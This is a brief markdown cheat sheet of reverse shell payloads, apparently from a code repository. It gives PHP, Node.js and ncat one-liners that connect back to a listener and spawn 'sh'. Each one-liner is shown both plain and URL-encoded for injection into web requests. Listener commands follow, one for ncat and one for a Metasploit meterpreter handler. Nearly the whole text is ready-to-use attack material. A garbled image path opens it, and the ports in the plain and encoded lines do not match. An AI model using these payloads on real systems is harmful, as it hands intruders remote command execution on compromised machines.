 # REVERSE
* PHP <br>
php -r '$sock=fsockopen("127.0.0.1",1337);exec("sh <&3 >&3 2>&3");'<br>
encoded uri : php%20-r%20'$sock=fsockopen(%22127.0.0.1%22,1024);exec(%22sh%20%3C&3%20%3E&3%202%3E&3%22);'

* NODE JS<br>
require('child_process').exec('nc -e sh 127.0.0.1 1337')<br>
encoded uri : require('child_process').exec('nc%20-e%20sh%20127.0.0.1%201024');

* NETCAT <br>
ncat 127.0.0.1 1024 -e sh<br>
encoded uri : ncat%20127.0.0.1%201024%20-e%20sh


# LISTENER
* NETCAT<br>
$ ncat -lvnp 1024<br>

* MSFCONSOLE<br>
$ msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 127.0.0.1; set lport 1024; exploit"
